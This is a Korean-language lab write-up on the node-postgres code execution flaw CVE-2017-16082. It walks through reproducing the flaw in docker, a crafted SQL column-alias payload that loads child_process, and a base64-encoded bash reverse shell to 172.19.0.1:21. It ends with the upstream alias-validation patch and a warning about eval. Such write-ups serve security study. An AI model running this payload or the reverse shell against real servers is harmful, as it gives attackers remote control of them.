 # node-postgres 임의 코드 실행 취약점（CVE-2017-16082）

**Contributors**

-   [서현규(@wh1te4ever)](https://github.com/wh1te4ever)

<br/>

## 취약점 원리

node-postgres는 PostgreSQL로부터 반환된 "Row Description" 유형의 패킷을 처리할 때 필드 이름을 코드에 연결합니다.<br/>
적절한 이스케이프(Escape) 처리가 이루어지지 않아 특수하게 구성된 필드 이름이 코드의 단일 인용부호('') 제한을 우회하여 코드 실행 취약점을 유발할 수 있습니다.


참고：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 취약점 재현

환경 구성 및 실행:

```
docker compose build
docker compose up -d
```

성공적으로 실행된 후에는 `http://localhost:3000/?id=1`에 방문하여 id가 1인 사용자 정보를 볼 수 있습니다:

![](img/1.png)

사용되는 데이터베이스는 postgres이며, sqlmap을 사용하여 여기에 삽입점이 있음을 확인할 수 있습니다:
![](img/2.png)

따라서 여기에서 node-postgres의 코드 실행 취약점이 존재합니다.
<br/>
실행하려는 명령어인 `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`을 작성한 다음, 적절히 분할(각 세그먼트의 길이가 64 문자를 초과하지 않도록)해서 다음 Payload를 만듭니다:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

위 페이로드를 URL 인코딩해서 전송합니다:：

![](img/3.png)

명령이 성공적으로 실행되면 셸을 얻을 수 있습니다：

![](img/4.png)

## poc.py
로컬 시스템에서 TCP 포트 21에서 수신 대기하는데, 그전에 비동기로 페이로드가 포함된 URL에 GET 요청을 날려 쉘을 가져오는 코드입니다.
![](img/5.png)

## Patch
https://node-postgres.com/announcements#2017-08-12
<br/>
https://github.com/graphile/graphile-engine/pull/48
<br/>
사용자가 정의한 열 별칭이 정밀하게 만들어진 정규식과 일치하는지 확인합니다.</br>
GraphQL에서 다음과 같은 코드로 유효성 검사를 수행하도록 개선했습니다.
```
select(exprGen: SQLGen, alias: RawAlias) {
    this.checkLock("select");
    if (typeof alias === "string") {
      // To protect against vulnerabilities such as
      //
      // https://github.com/brianc/node-postgres/issues/1408
      //
      // we need to ensure column names are safe. Turns out that GraphQL
      // aliases are fairly strict (`[_A-Za-z][_0-9A-Za-z]*`) anyway:
      //
      // https://github.com/graphql/graphql-js/blob/680685dd14bd52c6475305e150e5f295ead2aa7e/src/language/lexer.js#L551-L581
      //
      // so this should not cause any issues in practice.
      if (/^[_A-Za-z][_0-9A-Za-z]*$/.test(alias) !== true) {
        throw new Error("Disallowed alias.");
      }
    }
    this.data.select.push([exprGen, alias]);
  }
```

## 요약
- 해당 취약점으로 공격자는 서버에서 임의의 코드를 실행할 수 있고 작동되고 있는 서버의 쉘을 가져올 수도 있습니다.
<br>
- [이 링크](https://github.com/brianc/node-postgres/issues/1408#issue-249850516)를 참고하면, eval을 사용하면서 사용자의 데이터를 파싱할때 발생되는 취약점이었습니다.
- 자바스크립트에서 eval() 함수를 사용하면 악성적인 코드를 실행할 수 있기에 사용을 자제하거나 항상 사용되기 전에 유효성 검사를 추가시킬 고려가 있습니다.
- <b>eval() is evil...<b/>

## Reference
- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://joker-vip.github.io/2021/11/11/node-postgres%20代码执行漏洞
- https://github.com/nulldreams/CVE-2017-16082
- https://buaq.net/go-33738.html
- https://node-postgres.com/announcements#2017-08-12
- https://github.com/brianc/node-postgres/issues/1408
- https://github.com/graphile/graphile-engine/pull/48